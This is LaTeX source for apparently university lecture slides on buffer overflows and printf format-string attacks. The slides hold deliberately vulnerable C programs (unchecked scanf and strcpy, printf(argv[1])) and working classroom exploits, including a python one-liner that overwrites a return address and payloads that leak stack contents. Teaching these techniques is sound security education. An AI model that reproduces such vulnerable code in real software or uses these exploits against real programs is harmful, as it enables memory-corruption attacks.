
%\documentclass[landscape]{slides}
\documentclass{beamer}
\usepackage{beamerfoils}
\usetheme{Pittsburgh}
%\usepackage[accumulated]{beamerseminar}
                                % remove ``accumulated'' option
                                % for original behaviour
%\usepackage{beamerthemeclassic}
\usepackage{ulem}
%\usepackage{beamerthemesplit}

%\usepackage{beamerthemeshadow}

%\usepackage{beamerthemeplain}
%\usepackage{times}
\usepackage{colortbl}

%\usepackage{lslide}
\def\emptyline{\vspace{10pt}}
\usepackage{amssymb}
%\usepackage[latin1]{inputenc}
\usepackage[utf8]{inputenc}
%\usepackage[T1]{fontenc}
\usepackage[]{color}
\usepackage{epsfig}

\usepackage{graphicx,array}
\usepackage{tikz}
\usetikzlibrary{shadows.blur}
\usepackage{amsmath}%,amsthm}
\usepackage{hyperref}
\usepackage{pifont}
\usepackage{listings}

\usepackage{graphicx}

\graphicspath{{./}{figures/}}

%%%%%%%%%%%%%%%%%% ENVIRONMENTS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newtheorem{deft}{Definition}
\newtheorem{proposition}{Proposition}
\newtheorem{exemple}{Example}
\newtheorem{postulat}{Postulate}


%%%%%%%%%%%%%%%%%% COLORS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{encre}{rgb}{0.2, 0, 0.4}
\definecolor{lightblue}{rgb}{0.3,0.35,5}

\newcommand{\red}[1]{\only<#1>{\color{red}}}
\newcommand{\green}[1]{\only<#1>{\color{green}}}
\newcommand{\lra}{\leftrightarrow}
\newcommand{\Fd}{\mathbb{F}}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\newcommand{\blue}[1]{\textit{\color{blue}#1}}

%%   for the headline etc.
\renewcommand\normalcolor{\color{coltitle}}

%%   for the text
\color{encre}

%%%%%%%%%%%%%%% LISTINGS CONFIGURATION %%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{codegreen}{rgb}{0.25,0.49,0.25}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.1,0.1}
\definecolor{backcolour}{rgb}{0.97,0.97,0.97}

\lstset{
    basicstyle=\ttfamily\scriptsize,
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen}\itshape,
    keywordstyle=\color{codeblue}\bfseries,
    stringstyle=\color{codered},
    breaklines=true,
    showstringspaces=false,
    tabsize=4,
    frame=single,
    rulecolor=\color{codegray},
    numbers=left,
    numberstyle=\tiny\color{codegray},
    numbersep=5pt,
    xleftmargin=1.5em,
    framexleftmargin=1.5em,
}

%%%%%%%%%%%%%%% style settings ....
 \beamertemplatenavigationsymbolsempty
\beamertemplatefootempty
%\beamertemplatefootframenumber
\setbeamertemplate{footline}[frame number]


\title{Buffer Overflow}
\date{February 2026}

\AtBeginSection[]
{
\begin{frame}
\frametitle{Outline}
\tableofcontents[currentsection,sectionstyle=show/shaded,subsectionstyle=show/show/hide]
\end{frame}
}

\AtBeginSubsection[]
{
\begin{frame}
\frametitle{Outline}
\tableofcontents[currentsubsection,sectionstyle=show/shaded,subsectionstyle=show/shaded/hide]
\end{frame}
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\titlegraphic{
\centering

\includegraphics[width=4cm]{logo-upvd.png}
}
\begin{document}

\maketitle



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Buffer Overflow}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Introduction}

\begin{frame}
\frametitle{Buffer Overflow: Overview}

\begin{block}{Principle}
A widely used technique to execute malicious code on a remote machine.
\end{block}

\begin{itemize}
\item Requires one or more critical applications (involved in managing external connections) to contain such a vulnerability.
\item Many \enlight{worms} use buffer overflow.
\item The idea is to overflow a buffer in order to \enlight{overwrite adjacent data} and modify the program's behavior.
\end{itemize}

\end{frame}


\subsection{Modifying adjacent data}

\begin{frame}[fragile]
\frametitle{Exploiting a guessing game}

Consider the following C code (from a system exam):

\begin{lstlisting}[language=C]
int main()
{
  char nom[8];
  int a,b;
  srand(time(NULL));
  b=rand() & 0x3f;
  printf("Enter your name:\n");
  scanf("%s",nom);
  printf("Guess a number in 0,..,63:\n");
  scanf("%d",&a);
  write(STDOUT_FILENO,nom,8);
  if( b == a )
      printf(" you won!\n");
  else
      printf(" you lost!\n");
  printf("The number to find was:%d\n",b);
  return(0);
}
\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
\frametitle{Assembly code analysis}

Analyzing the assembly code reveals the data layout:

\begin{lstlisting}[language={[x86masm]Assembler},basicstyle=\ttfamily\tiny]
(gdb) disassemble main
   0x0000000000001226 <+29>: call   0x1110 <rand@plt>
   0x000000000000122b <+34>: and    eax,0x3f
   0x000000000000122e <+37>: mov    DWORD PTR [rbp-0x4],eax  # address of b
   ...
   0x000000000000123d <+52>: lea    rax,[rbp-0xc]   # address of nom
   ...
   0x0000000000001261 <+88>: lea    rax,[rbp-0x10]  # address of a
\end{lstlisting}

\end{frame}


\begin{frame}[fragile]
\frametitle{Stack layout}

The local space of \texttt{main}:
\begin{center}
\begin{tikzpicture}[scale=0.6, every node/.style={font=\ttfamily\scriptsize}]
  % Stack frame
  \draw (0,0) rectangle (4,1); \node at (2,0.5) {a (4 bytes)};
  \node[left] at (0,0.5) {rbp-16};
  \draw (0,1) rectangle (4,3); \node at (2,2) {nom[0..7]};
  \node[left] at (0,2) {rbp-12};
  \draw (0,3) rectangle (4,4); \node at (2,3.5) {b (4 bytes)};
  \node[left] at (0,3.5) {rbp-4};
  \draw (0,4) rectangle (4,5); \node at (2,4.5) {savedRBP};
  \node[left] at (0,4.5) {rbp};

  % Arrow showing overflow
  \draw[->,red,thick] (5,2) -- (5,3.5) node[midway, right, red] {overflow!};
\end{tikzpicture}
\end{center}

\begin{itemize}
\item \texttt{nom[8]} is located \emph{just before} the integer \texttt{b}
\item The string is entered \emph{after} \texttt{b} has been randomly chosen
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{The exploit}

\begin{block}{Strategy}
Choose a name \textbf{longer than 8 characters}. The 9\textsuperscript{th} character overwrites the value of \texttt{b}.
\end{block}

For example, choose ``\texttt{joceline!}'' (9 characters, ``!'' has ASCII code 33):

\begin{lstlisting}[language=bash]
$ gcc -g -fno-stack-protector debordement-var-locales.c
$ ./a.out
Enter your name:
joceline!
Guess a number in 0,..,63:
33
joceline you won!
The number to find was:33
\end{lstlisting}

\begin{alertblock}{Result}
The character ``!'' (ASCII 33) overwrites \texttt{b}, so \texttt{b=33}. Just guess 33 to win!
\end{alertblock}

\end{frame}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Hijacking program execution}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Stack organization}

\begin{frame}
\frametitle{Stack organization}

The stack is a \enlight{contiguous memory area} containing:
\begin{itemize}
\item Local variables of a function
\item Function call parameters
\item Return values of a function
\item Data to resume program execution at the end of a function (\enlight{savedRIP} and \enlight{savedRBP})
\end{itemize}

\end{frame}


\begin{frame}
\frametitle{Registers \texttt{RSP}, \texttt{RBP} and \texttt{SavedRIP}}

\begin{itemize}
\item \textbf{RSP} (\textit{Stack Pointer}): contains the address of the top of the stack (the address of the last pushed element)

\item \textbf{RBP} (\textit{Base Pointer}): points to the bottom of the function's memory area

\item \textbf{SavedRIP}: contains the address of the code after the function call. This value is popped and loaded into the \texttt{RIP} register by the \texttt{ret} instruction
\end{itemize}

\end{frame}


\subsection{Hijacking with an increment}

\begin{frame}[fragile]
\frametitle{Modifying savedRIP with an increment}

Consider the following C code:
\begin{lstlisting}[language=C]
#include <stdio.h>

void function(long a, long b)
{
  long buffer[2]={0,1};
  buffer[a]+=b;
}
void main()
{
  long a,b;
  a=0;
  b=15;
  function(a,b);
  printf("coucou1\n");
  printf("coucou2\n");
}
\end{lstlisting}

Execution prints \texttt{coucou1} and \texttt{coucou2}.

\end{frame}


\begin{frame}
\frametitle{Stack evolution}

\begin{center}

\includegraphics[width=12cm]{evolution-pile.pdf}
\end{center}

\end{frame}


\begin{frame}[fragile]
\frametitle{The exploit: skipping \texttt{printf("coucou1")}}

\begin{block}{Objective}
Modify \texttt{savedRIP} during the call to \texttt{function} to skip the first \texttt{printf}.
\end{block}

Choose \texttt{a} and \texttt{b} such that:
\begin{itemize}
\item \texttt{buffer[a]} corresponds to \texttt{savedRIP}
\item The increment \texttt{+b} modifies \texttt{savedRIP} so it points to the call to \texttt{printf("coucou2\textbackslash n")}
\end{itemize}

\medskip
For the value of \texttt{a}, we need to advance the \texttt{buffer} pointer by 24 bytes:
\begin{itemize}
\item 8 bytes for \texttt{buffer[0]}
\item 8 bytes for \texttt{buffer[1]}
\item 8 bytes for \texttt{savedRBP}
\end{itemize}
So \texttt{a = 24/8 = 3}.

\end{frame}


\subsection{Hijacking with an overflow}

\begin{frame}[fragile]
\frametitle{Overwriting savedRIP via overflow}

Code that prints ``hello name'':

\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

void g()
{
  printf("we are in g!\n");
  return;
}

void bonjour(char *s)
{
  char nom[8];
  strcpy(nom,s);
  printf("Hello %s %08lx\n",nom,nom+16);
  return;
}

void main(int argc, char **argv)
{
  if( argc >= 2)
      bonjour(argv[1]);
  printf("coucou1\n");
  printf("coucou2\n");
}
\end{lstlisting}

\end{frame}


\begin{frame}[fragile]
\frametitle{Finding the address of \texttt{g()}}

Compile without stack protection and without address randomization:

\begin{lstlisting}[language=bash]
$ gcc -fno-stack-protector -no-pie -g debordement-appel.c
$ gdb a.out
(gdb) disassemble g
Dump of assembler code for function g:
   0x0000000000401176 <+0>:  endbr64
   0x000000000040117a <+4>:  push   rbp
   0x000000000040117b <+5>:  mov    rbp,rsp
   ...
   0x000000000040118f <+25>: ret
End of assembler dump.
\end{lstlisting}

The address of \texttt{g} is \texttt{0x401176}.

\end{frame}


\begin{frame}[fragile]
\frametitle{The stack in \texttt{bonjour()}}

\begin{center}
\begin{tikzpicture}[scale=0.55, every node/.style={font=\ttfamily\scriptsize}]
  % Stack frame
  \draw (0,0) rectangle (5,2); \node at (2.5,1) {nom[0..7]};
  \node[left] at (0,1) {rbp-8};
  \node[right] at (5,1) {\textcolor{blue}{local variable}};

  \draw (0,2) rectangle (5,4); \node at (2.5,3) {savedRBP};
  \node[left] at (0,3) {rbp};
  \node[right] at (5,3) {\textcolor{orange}{8 x 'b'}};

  \draw (0,4) rectangle (5,6); \node at (2.5,5) {savedRIP};
  \node[left] at (0,5) {rbp+8};
  \node[right] at (5,5) {\textcolor{red}{0x76 0x11 0x40 0x00...}};

  % Arrow
  \draw[->,red,thick] (6.5,1) -- (6.5,5) node[midway, right, red] {strcpy overflows};
\end{tikzpicture}
\end{center}

The name given is: \texttt{"jocelinebbbbbbbb\textbackslash x76\textbackslash x11\textbackslash x40"}
\begin{itemize}
\item 8 characters ``joceline'' fill \texttt{nom}
\item 8 characters ``b'' overwrite \texttt{savedRBP}
\item \texttt{0x76 0x11 0x40} = address of \texttt{g()}
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{The exploit in action}

\begin{lstlisting}[language=bash]
$ echo $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Jocelinebbbbbbbbv@
$ ./a.out $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Hello Jocelinebbbbbbbbv@ 7ffff208bff8
we are in g!
Segmentation fault (core dumped)
\end{lstlisting}

\begin{alertblock}{Result}
We successfully executed function \texttt{g()}! The \emph{segfault} is expected because \texttt{savedRBP} was corrupted.
\end{alertblock}

\end{frame}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Exploiting the printf format string}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Principle}

\begin{frame}[fragile]
\frametitle{The \texttt{printf} format string}

The \texttt{printf} format string can be used to \enlight{read the stack} at unintended memory locations.

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
  int u=5,v=9,w=11;
  printf("u is %d and is at address %08x\n"
         "v is %d\nw is %d\n",u,&u,v);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ gcc -o format format.c
$ ./format
u is 5 and is at address bffff7d4
v is 9
\end{lstlisting}

\texttt{w} is not displayed because there are not enough arguments.

\end{frame}


\begin{frame}[fragile]
\frametitle{More format specifiers than arguments}

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
 int u=5,v=9;
 printf("u is %d and is at address %08x\n"
        "v is %d\n",u,&u);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ ./format
u is 5 and is at address bffff7d4
v is -1208127500
\end{lstlisting}

\begin{alertblock}{Explanation}
\texttt{printf} parses the format string and fetches values from registers and the stack, \textbf{even if they were not passed as arguments}!
\end{alertblock}

\end{frame}


\subsection{Parameter passing to printf}

\begin{frame}[fragile]
\frametitle{Registers then stack}

\begin{exemple}
Consider a call to \texttt{printf} with multiple integers to display:
\begin{lstlisting}[language=C]
#include <stdio.h>

int main()
{
  int u=5;
  printf("u is %d,u is %d, u is %d, u is %d,"
         " u is %d, u is %d, u is %d\n",
         u,u,u,u,u,u,u);
}
\end{lstlisting}
\end{exemple}

The last two parameters are passed on the stack (with \texttt{push}). The \texttt{printf} function systematically reads data from registers then from the stack.

\end{frame}


\begin{frame}
\frametitle{Parameter passing diagram}

\begin{center}

\includegraphics[width=14cm]{dessin.pdf}
\end{center}

\end{frame}


\subsection{Exploitation with \texttt{printf(argv[1])}}

\begin{frame}[fragile]
\frametitle{Dangerous code: \texttt{printf(argv[1])}}

\begin{lstlisting}[language=C]
#include <stdio.h>
int main(int argc, char **argv)
{
    int u=5,v=9;
    char t[]="abcabcabcabcabcabcabc";
    char s[]="secret";

    printf("%s",argv[1]);  // correct
    printf(argv[1]);       // DANGEROUS!
    printf("\n");
}
\end{lstlisting}

\begin{alertblock}{Danger}
\texttt{printf(argv[1])} uses user input as the format string: the attacker controls the format specifiers!
\end{alertblock}

\end{frame}


\begin{frame}[fragile]
\frametitle{Reading the stack via \texttt{\%08x} and \texttt{\%016lx}}

\begin{lstlisting}[language=bash,basicstyle=\ttfamily\tiny]
$ ./a.out coucou
coucoucoucou
$ ./a.out coucou%08x
coucou%08xcoucou17bbd006
$ ./a.out coucou%08x%08x%08x%08x
coucou%08x%08x%08x%08xcoucoufcc52006000000000000000100000000
$ ./a.out $(python3 -c "print('coucouuu'+20*'-%016lx')")
coucouuu-...-00746572636573ff-6463626164636261
-0063626164636261-...-0000000500000009-...
\end{lstlisting}

We can see the local variables of \texttt{main}:
\begin{itemize}
\item \texttt{"00746572636573ff"} $\rightarrow$ ``secret'' (in hexadecimal)
\item \texttt{"6463626164636261"} $\rightarrow$ ``abcdabca'' (in hexadecimal)
\item \texttt{"0000000500000009"} $\rightarrow$ the values of \texttt{u=5} and \texttt{v=9}
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{Confirmed memory layout}

Assembly code analysis confirms:

\begin{center}
\begin{tikzpicture}[scale=0.55, every node/.style={font=\ttfamily\scriptsize}]
  \draw (0,0) rectangle (5,1.5); \node at (2.5,0.75) {s[] = "secret"};
  \node[left] at (0,0.75) {rbp-0x27};

  \draw (0,1.5) rectangle (5,4); \node at (2.5,2.75) {t[] = "abcabc..."};
  \node[left] at (0,2.75) {rbp-0x20};

  \draw (0,4) rectangle (5,5); \node at (2.5,4.5) {v = 9};
  \node[left] at (0,4.5) {rbp-0x8};

  \draw (0,5) rectangle (5,6); \node at (2.5,5.5) {u = 5};
  \node[left] at (0,5.5) {rbp-0x4};

  \draw (0,6) rectangle (5,7); \node at (2.5,6.5) {savedRBP};
  \node[left] at (0,6.5) {rbp};
\end{tikzpicture}
\end{center}

\end{frame}


\begin{frame}
\frametitle{Conclusion: best practices}

\begin{itemize}
\item With some tricks, one can read the stack at \textbf{any address}
\item One can also \textbf{write} to the stack at any address
\end{itemize}

\begin{alertblock}{Must avoid}
\centerline{\texttt{printf(char\_pointer);}}
\end{alertblock}

\begin{exampleblock}{Safe method}
\centerline{\texttt{printf("\%s", char\_pointer);}}
\end{exampleblock}

The format string is in this case in the program's constants and cannot be manipulated.

\end{frame}

\end{document}
